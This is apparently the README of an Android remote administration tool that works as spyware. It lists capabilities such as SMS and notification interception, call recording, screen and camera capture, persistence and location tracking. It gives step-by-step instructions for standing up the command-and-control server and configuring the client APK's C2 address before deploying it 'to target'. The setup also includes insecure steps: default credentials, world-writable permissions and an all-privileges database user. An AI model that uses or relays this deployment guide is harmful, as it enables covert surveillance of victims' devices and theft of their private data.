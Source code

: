 ## Moukthar
Remote adminitration tool for android

### Features
- Notifications listener
- SMS listener
- Phone call recording
- Image capturing and screenshots
- Persistence 
- Read & write contacts
- List installed applications
- Download & upload files
- Get device location

### Installation
- Clone repository
  ```console
  git clone https://github.com/Tomiwa-Ot/moukthar.git
  ```
- Install php, composer, mysql, php-mysql driver, apache2 and a2enmod
- Move server files to ```/var/www/html/``` and install dependencies
  ```console
  mv moukthar/Server/* /var/www/html/
  cd /var/www/html/c2-server
  composer install
  cd /var/www/html/web-ocket/
  composer install
  cd /var/www
  chown -R www-data:www-data .
  chmod -R 777 .
  ```
  The default credentials are username: ```android``` and password: ```the rastafarian in you```
- Create new sql user
  ```mysql
  CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
  GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
  FLUSH PRIVILEGES;
  ```
- Set database credentials in ```c2-server/.env``` and ```web-socket/.env```
- Execute ```database.sql```
- Start web socket server or deploy as service in linux
  ```console
  php Server/web-socket/App.php
  # OR
  sudo mv Server/websocket.service /etc/systemd/system/
  sudo systemctl daemon-reload
  sudo systemctl enable websocket.service
  sudo systemctl start websocket.service
  ```
- Modify ```/etc/apache2/sites-available/000-default.conf```
  ```console
  <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/c2-server
        DirectoryIndex app.php
        Options -Indexes

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
  </VirtualHost>

  ```
- Modify ```/etc/apache2/apache2.conf```
  ```xml
    Comment this section
    #<Directory />
    #       Options FollowSymLinks
    #       AllowOverride None
    #       Require all denied
    #</Directory>

   Add this
    <Directory /var/www/html/c2-server>
        Options -Indexes
        DirectoryIndex app.php
        AllowOverride All
        Require all granted
    </Directory>
  ```
- Increase php file upload max size ```/etc/php/*.*/apache2/php.ini```
  ```ini
  ; Increase size to permit large file uploads from client
  upload_max_filesize = 128M
  ; Set post_max_size to upload_max_filesize + 1
  post_max_size = 129M
  ```
- Set web socket server address in <script> tag in ```c2-server/src/View/home.php``` and ```c2-server/src/View/features/files.php```
  ```console
  const ws = new WebSocket('ws://IP_ADDRESS:8080');
  ```
- Restart apache using the command below
  ```console
  sudo a2enmod rewrite && sudo service apache2 restart
  ```
- Set C2 server and web socket server address in client ```functionality/Utils.java```
  ```java
  public static final String C2_SERVER = "http://localhost";

  public static final String WEB_SOCKET_SERVER = "ws://localhost:8080";
  ```
- Compile APK using Android Studio and deploy to target

### Screenshots
![Dashboard](screenshots/c2.png)

### TODO
- Auto scroll logs on dashboard
- Video and screenshot
